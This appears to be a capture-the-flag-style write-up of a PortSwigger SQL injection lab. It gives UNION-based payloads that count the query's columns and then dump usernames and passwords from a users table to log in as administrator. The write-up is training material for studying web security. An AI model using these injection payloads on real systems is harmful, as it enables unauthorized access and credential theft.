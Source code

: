 # Write-up: SQL injection UNION attack, retrieving data from other tables
Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables>  
Difficulty: PRACTITIONER  
 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

To find the number of columns returned by the query, we can use the `UNION` method. We will start with `UNION SELECT NULL` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we doesn't get error at `UNION SELECT NULL, NULL`, which means the number of columns is 2.

The link is `/filter?category=Gifts'+UNION+SELECT+NULL,NULL--`

sqli payload is
```sql
' UNION SELECT NULL, NULL--
```

### Solution

Now, we need to find the credentials of the administrator. We can use the `users` table in the database. The column `username` and `password` contains the user credentials. We can use the following link to list the table values. 
`/filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--`

This gives the username and password for `administrator` of the user. And we can login as administrator.

Hence, the lab is sovled.

![alt text](img/2.png)